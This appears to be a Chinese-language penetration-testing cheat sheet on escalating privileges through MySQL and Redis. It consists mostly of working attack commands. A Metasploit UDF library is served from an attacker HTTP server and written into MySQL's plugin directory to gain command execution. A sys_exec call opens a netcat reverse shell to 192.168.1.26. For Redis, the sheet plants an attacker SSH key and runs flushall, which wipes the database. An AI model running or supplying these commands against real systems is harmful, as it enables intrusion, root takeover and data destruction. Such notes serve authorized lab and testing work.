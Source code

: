 ### MySQL提权
执行指令
```Shell
> system id
# 或
> \! bash
```
UDF提权
`kali` 中自带一些可以直接使用的动态链接库，根据目标机器架构选择
```
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_32.so
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
/usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so
```
先传到目标机器上，以64位Linux为例
```Shell
cd /usr/share/metasploit-framework/data/exploits/mysql
python3 -m http.server 7331
```
靶机上
```Shell
cd /tmp/
wget http://192.168.1.26:7331/lib_mysqludf_sys_64.so -O udf.so
mysql -u root -p
# password
mysql> show variables like '%plugin%';
# plugin_dir : /usr/lib/mysql/plugin/

# 随便进入一个数据库就行 不一定是mysql
mysql> use mysql;
# 表名故意写反写错的 避免冲突
mysql> create table tset(line blob);
mysql> insert into tset values(load_file('/tmp/udf.so'));
mysql> select * from tset into dumpfile '/usr/lib/mysql/plugin/udf.so';
mysql> create function sys_exec returns integer soname 'udf.so';

# 检查是否可以UDF提权
mysql> select sys_exec('id > /tmp/tset.txt');
# 检查下属主属组是不是root账号
ls -l /tmp/tset.txt
# 利用 如反弹shell
mysql> select sys_exec('nc 192.168.1.26 4444 -e /bin/bash');
```

### Redis提权
传一个公钥上去
```Shell
# 传一个公钥上去
mkdir .ssh
wget http://192.168.1.26:7331/id_rsa.pub -O .ssh/authorized_keys
chmod 600 .ssh/authorized_keys
chmod 755 .ssh/
# 这样就可以SSH上去了

# 公钥内容写进去
cp .ssh/authorized_keys id_rsa.pub
# 准备数据
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > public.txt
# 先清空全部数据
redis-cli -a ??__password__?? flushall
cat public.txt | redis-cli -a ??__password__?? -x set 1
redis-cli -a ??__password__??
> CONFIG SET dir /root/.ssh
```